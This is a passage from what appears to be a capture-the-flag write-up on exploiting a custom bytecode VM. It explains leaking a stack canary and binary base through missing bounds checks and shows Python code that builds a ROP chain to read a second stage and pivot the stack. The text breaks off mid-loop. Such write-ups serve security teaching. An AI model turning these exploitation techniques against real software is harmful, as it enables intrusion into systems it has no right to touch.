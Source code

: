 ### ROP in the userspace

Using the missing bounds checks mentioned above, we can first leak both the stack canary (of the userspace process) and the base address of the binary (which will be the same in the userspace and kernel processes).
After that, we overwrite the stack of the userspace process and execute a ROP chain. Because our previously sent bytecode has to write this chain, we are limited in size. Thus, the first ROP chain will just read some input (the second ROP chain) onto the data segment of the process and pivot the stack there.

```python
# gadgets encoded as tuples
# the first element is the gadget/address
# the second element indicates if the address is relative to the binary's base

# read(0, data + 0xa00, 0xe00)
(pop_rdi, True),
(0, False),
(pop_rsi, True),
(0x203000 + 0xa00, True),
(pop_rdx, True),
(0xe00, False),
(binary.plt.read, True),
# rsp = data + 0xa00
(pop_rsp, True),
(0x203000 + 0xa00, True),
```

We have to write this first ROP chain using the bytecode executed in the VM, using the `getstack` and `setstack` instructions as explained above. Because we have no way to leak the base address of the binary before sending the bytecode, we have to use the bytecode to adjust the addresses of our gadgets.

```python
# generate the bytecode for a given ROP chain
# abbreviations for opcode operands: r = register, s = stack, i = immediate

bc = ''
# set regs 1, 2, 3, 4 to ret addr (4 is not touched, because always zero)
bc += mov_rs(1, 52)
bc += mov_rs(2, 53)
bc += mov_rs(3, 54)
# adjust regs to base addr (subtract offset of return address)
bc += sub_ri(1, 0xe6e)
# debug to leak base addr
bc += p32(0xa)

idx = 52
for val, rel in rop:
    if rel:
        # set regs 5, 6, 7, 8 to val
        bc += mov_ri(5, val & 0xffff)
        bc += mov_ri(6, (val >> 16) & 0xffff)
        bc += mov_ri(7, (val >> 32) & 0xffff)
        bc += mov_ri(8, (val >> 48) & 0xffff)
        # add base addr
        bc += add_rr(5, 1)
        bc += add_rr(6, 2)
        bc += add_rr(7, 3)
        # write to stack
        bc += mov_sr(idx, 5)
        bc += mov_sr(idx + 1, 6)
        bc += mov_sr(idx + 2, 7)
        bc += mov_sr(idx + 3, 8)
    else:
```